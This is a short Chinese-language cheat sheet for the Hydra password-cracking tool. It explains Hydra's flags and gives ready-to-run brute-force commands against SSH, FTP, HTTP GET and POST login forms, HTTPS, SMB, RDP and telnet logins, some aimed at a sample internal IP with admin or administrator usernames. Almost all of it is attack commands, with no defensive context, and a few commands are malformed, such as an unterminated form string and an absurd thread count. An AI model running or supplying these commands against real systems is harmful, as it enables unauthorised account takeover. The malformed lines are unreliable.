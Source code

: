 #hydra 网络账号破解神器

---

Hydra –L 文件路径 –P 密码路径 t 线程 –vV 详细显示 –o 指定生成路径 –f 找到密码就停止 –e ns 空密码和指定密码试探 ip service 爆破服务

爆破ssh：

hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns ip ssh

hydra -l 用户名 -p 密码字典 -t 线程 -o /1 -vV ip ssh

爆破ftp：

hydra ip ftp -l 用户名 -P 密码字典 -t 线程(默认16) –vV

hydra ip ftp -l 用户名 -P 密码字典 -e ns -vV

爆破web登录(get)：

hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns ip http-get/admin/

hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns -f ip http-get/admin/index.PHP

爆破web登录(post)：

hydra -l 用户名 -P 密码字典 -s 80 ip http-post-form"/admin/login.php:user

hydra -t 3 -l admin -P pass.txt -o out.txt -f 10.36.16.18 http-post-form"login.php:id=USER&passwd=PASS:"

https爆破：

hydra -m /index.php -l admin -P pass.txt 10.36.16.18 https

smb爆破：

hydra -l administrator -P pass.txt 10.36.16.18 smb

rdp爆破：

hydra -l administrator -P pass.txt –o /root/1 –V rdp://ip

telnet爆破：

hydra ip telnet -L 用户 -P 密码 -e ns -f -v -t 1000000000000000
